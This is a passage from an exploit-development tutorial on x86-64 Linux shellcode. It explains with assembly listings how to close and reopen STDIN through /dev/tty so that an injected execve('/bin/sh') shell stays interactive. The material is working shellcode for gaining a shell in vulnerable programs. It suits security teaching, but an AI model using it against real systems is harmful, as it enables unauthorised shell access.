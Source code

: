 This is some solid shellcode, but we can make it even better.

## Manipulating STDIN

One thing that we may find useful while developing exploits is the input redirection command (<). The input redirection command is typically used like this: `./command < file`. It works by changing the value of `STDIN` to another file so that user input comes from the specified file instead of the command line. Later, we may find it useful to use the input redirection command because it makes handling user input easier. If you would like to learn more about how redirection works in Linux, click [here](https://linuxhandbook.com/redirection-linux/).

If we try using the input redirection command on a vulnerable program that contains our injected shellcode, then when `execve("/bin/sh", NULL, NULL)` is executed, the program may try reading our commands from a file instead of reading commands from the terminal window. We need to write some extra assembly that closes whatever the current input file is and reopens `STDIN`, which will ensure that the input is always read directly from the keyboard.

We can do this by first calling `sys_close(STDIN)` and calling `open("/dev/tty", O_RDWR | ...)` afterwards. This will close and reopen `STDIN`, which will refresh it and let us type in keyboard input. Note that "/dev/tty" is a Linux alias for the device that handles `STDIN` by default.

Closing `STDIN` is simple. We just need to set the following registers for the syscall:
- `rax` is set to 3, which is the syscall for `sys_close`
- `rdi` is set to 0, which represents `STDIN`

```
xor rax, rax ; Clears the rax register
xor rdi, rdi ; Zero represents STDIN
mov al, 3 ; Syscall number for sys_close
syscall ; Calls sys_close(0)
```

Opening "/dev/tty" is a little bit more complicated. First we need to push a string terminator onto the stack. Since `rax` is set equal to zero at this point in time, we can just push `rax`. Next, we should move a pointer to the ASCII string "/dev/tty" into `rdi`. We can do this by pushing its hexadecimal equivalent onto the stack and moving `rsp` into `rdi` (similar to what we did to get a pointer to "/bin/sh" into `rdi` earlier). We don't have to move this string in chunks like last time because "/dev/tty" is eight bytes long, which is also the exact size of `rdi`. We'll set the flag value in `rsi` to 0x2702 for read and write mode. Finally, we can move syscall number 2 into `rax` and run the syscall.

```
push rax ; Push a string terminator onto the stack
mov rdi, 0x7974742f7665642f ; Move "/dev/tty" (written backwards in ASCII) into rdi.
push rdi ; Push the string "/dev/tty" onto the stack.
push rsp ; Push a pointer to the string onto the stack.
pop rdi ; rdi now has a pointer to the string "/dev/tty"
        ; These last two lines are equivalent to doing "mov rdi, rsp"
push rax ; Push a NULL byte onto the stack
pop rsi ; Make rsi NULL
        ; These last two lines are equivalent to doing "mov rsi, 0"
mov si, 0x2702 ; Flag for O_RDWR
mov al, 0x2 ; Syscall for sys_open
syscall ; calls sys_open("/dev/tty", O_RDWR)
```
